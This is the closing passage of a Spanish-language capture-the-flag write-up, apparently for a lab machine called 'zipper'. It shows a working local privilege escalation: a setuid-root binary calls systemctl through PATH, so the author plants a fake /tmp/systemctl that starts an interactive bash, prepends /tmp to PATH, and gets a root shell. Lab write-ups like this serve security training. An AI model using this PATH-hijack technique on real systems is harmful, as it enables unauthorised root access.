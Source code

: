 ``` text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

Importante, vemos declarada la función setuid(), vemos que hay llamadas a system(), inclusive se distinguen comandos de systemctl. Si reverseamos un poco el binario, veremos que se hace setuid(0), lo cual es consistente con los bits que tiene el binario `-rwsr-sr-x` de root:root.

Al ejecutarlo veremos que falla en nuestra shell, por lo que hacemos un upgrade a bash:

``` text
$ cd /home/zapper/utils
$ ./zabbix-service
start or stop?: [!] ERROR: Unrecognized Option
$ printf "start\n" | ./zabbix-service
start or stop?: $ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ printf "start" | ./zabbix-service
start or stop?: $
$
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
zabbix@zipper:/home/zapper/utils$ ./zabbix-service
./zabbix-service
start or stop?: start
start
zabbix@zipper:/home/zapper/utils$
```

Ya que tenemos un mejor control sobre los pipes, podemos realizar una escalación de privilegios porque los comandos ejecutados desde el binario zabbix\-service confían en la variable PATH, por lo que cambiando la variable PATH y suplantando el binario systemctl por cualquier cosa, podemos ejecutar cualquier cosa como root (gracias setuid 0). En este caso lo sustituimos por un script de bash:

``` text
zabbix@zipper:/home/zapper/utils$ printf '#!/bin/bash\n\n/bin/bash -i' > /tmp/systemctl
<intf '#!/bin/bash\n\n/bin/bash -i' > /tmp/systemctl
zabbix@zipper:/home/zapper/utils$ chmod +x /tmp/systemctl
chmod +x /tmp/systemctl
zabbix@zipper:/home/zapper/utils$ PATH="/tmp:$PATH" ./zabbix-service
PATH="/tmp:$PATH" ./zabbix-service
start or stop?: start
start
root@zipper:/home/zapper/utils# id
id
uid=0(root) gid=0(root) groups=0(root),113(zabbix)
```

# cat root.txt and user.txt

... We got root flag and user flag.

---

Gracias por llegar hasta aquí, hasta la próxima!
